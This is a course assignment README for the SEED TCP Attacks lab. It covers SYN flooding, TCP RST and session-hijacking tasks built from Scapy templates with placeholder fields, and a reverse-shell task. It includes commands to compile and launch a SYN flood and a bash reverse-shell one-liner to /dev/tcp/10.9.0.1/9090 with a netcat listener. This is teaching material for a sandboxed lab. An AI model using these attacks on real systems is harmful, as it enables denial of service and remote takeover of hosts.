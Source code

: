 # TCP Attacks Lab

## Overview

This lab involves various TCP attacks, including SYN Flooding, TCP RST attacks, TCP Session Hijacking, and creating a Reverse Shell. Each task requires specific steps and screenshots to demonstrate the attacks and their mitigation techniques.

## Lab Setup

1. **Download the Lab Setup:**
   - [Lab Setup ZIP File](https://seedsecuritylabs.org/Labs_20.04/Files/TCP_Attacks/TCP_Attacks.zip) (For Apple Silicon, use [Labsetup-arm.zip](https://seedsecuritylabs.org/Labs_20.04/Files/TCP_Attacks/Labsetup-arm.zip))
   - [Docker Manual](https://seedsecuritylabs.org/Labs_20.04/Files/TCP_Attacks/Docker_Manual.pdf)

2. **Ensure Docker is Set Up:**
   - Follow the instructions in section 2.1 of the [Lab PDF](https://seedsecuritylabs.org/Labs_20.04/Files/TCP_Attacks/TCP_Attacks.pdf) to set up your environment.

## Tasks

### Q1 Task 1: SYN Flooding Attack

**Objective:** Demonstrate a SYN Flooding attack and the effect of SYN cookies.

1. **SYN Flooding Overview:**
   - SYN flooding is a Denial of Service (DoS) attack where attackers send many SYN requests to a victim’s TCP port without completing the handshake.

   ![SYN Flooding Attack Illustration](tcp2.png)

2. **Queue Size Check:**
   - Use the command `sysctl -q net.ipv4.tcp_max_syn_backlog` to check the queue size.

3. **SYN Cookie Countermeasure:**
   - Enable/Disable SYN cookies using:
     ```bash
     sudo sysctl -a | grep syncookies
     sudo sysctl -w net.ipv4.tcp_syncookies=0 # Turn off SYN cookies
     sudo sysctl -w net.ipv4.tcp_syncookies=1 # Turn on SYN cookies
     ```
   - Note: These commands don’t work inside the container; they should be set in `docker-compose.yml` if needed.

4. **Launching the Attack:**
   - Compile and run the attack using:
     ```bash
     gcc -o synflood synflood.c
     synflood 10.9.0.5 23
     ```

5. **Observations:**
   - Compare the results using `netstat -nat` before and during the attack.
   - Test connectivity from another machine using telnet.

6. **Screenshots:**
   - **SYN cookies off, Attack in progress:** [Screenshot](TCP_Attack_without_the_SYN_cookie_mechanism.png)
   - **SYN cookies on, Attack in progress:** [Screenshot](TCP_Attack_with_the_SYN_cookie_mechanism.png)

### Q2 Task 2: TCP RST Attacks on Telnet Connections

**Objective:** Launch a TCP RST attack to break an established telnet connection.

1. **Manual Attack:**
   - Use Scapy to conduct the attack. Replace placeholders with actual values from Wireshark:
     ```python
     #!/usr/bin/env python3
     from scapy.all import *
     ip = IP(src="@@@@", dst="@@@@")
     tcp = TCP(sport=@@@@, dport=@@@@, flags="@@@@", seq=@@@@, ack=@@@@)
     pkt = ip/tcp
     ls(pkt)
     send(pkt, verbose=0)
     ```

2. **Screenshots:**
   - **Python/Scapy Code:** [Screenshot](Q2_Python_Scapy_code.png)
   - **Wireshark Frames:**
     - Frame showing SEQ/ACK numbers: [Screenshot](Q2_TCP_RST_ATTACK_Wireshark_1.png)
     - Frame showing TCP RST attack: [Screenshot](Q2_TCP_RST_ATTACK_Wireshark_2.png)

3. **Optional Bonus:**
   - Automate the attack using Scapy’s `sniff()` function. Submit a PDF with details of automation.

### Q3 Task 3: TCP Session Hijacking

**Objective:** Hijack an existing TCP connection and inject malicious commands.

1. **Manual Attack:**
   - Use Scapy to perform the session hijacking. Replace placeholders with actual values from Wireshark:
     ```python
     #!/usr/bin/env python3
     from scapy.all import *
     ip = IP(src="@@@@", dst="@@@@")
     tcp = TCP(sport=@@@@, dport=@@@@, flags="@@@@", seq=@@@@, ack=@@@@)
     data = "@@@@"
     pkt = ip/tcp/data
     ls(pkt)
     send(pkt, verbose=0)
     ```

2. **Screenshots:**
   - **Python/Scapy Code:** [Screenshot](Q3_Python_Scapy_code.png)
   - **Wireshark Frames:**
     - Frame showing SEQ/ACK numbers: [Screenshot](Q3_TCP_Session_Hijacking_Attack_before.png)
     - Frame showing injected code: [Screenshot](Q3_TCP_Session_Hijacking_Attack_after.png)

3. **Optional Bonus:**
   - Automate the attack using Scapy’s `sniff()` function. Submit a PDF with details of automation.

### Q4 Task 4: Creating Reverse Shell using TCP Session Hijacking

**Objective:** Use TCP session hijacking to set up a reverse shell.

1. **Reverse Shell Setup:**
   - The reverse shell command example:
     ```bash
     /bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1
     ```
   - Netcat setup on the attacker machine:
     ```bash
     nc -lvp 9090
     ```

2. **Screenshots:**
   - **Python/Scapy Code:** [Screenshot](Q4_Python_Scapy_code.png)
   - **Reverse Shell Connection:** [Screenshot](Q4_reverse_shell.png)

3. **Optional Bonus:**
   - Automate the attack and setup. Submit a PDF with details of automation.

## Submission Instructions

- Follow the [instructions](https://seedsecuritylabs.org/Labs_20.04/Files/TCP_Attacks/TCP_Attacks.pdf) in the PDF document for submission.
- Submit screenshots showing the VM screen with date and time for each attack.

## Due Dates

- **Normal Due Date:** 11 Feb
- **Earliest Acceptance Date:** 6 Feb (+1% bonus per day, up to +5% bonus for five days early)
- **Latest Acceptance Date:** 21 Feb (-10% points)

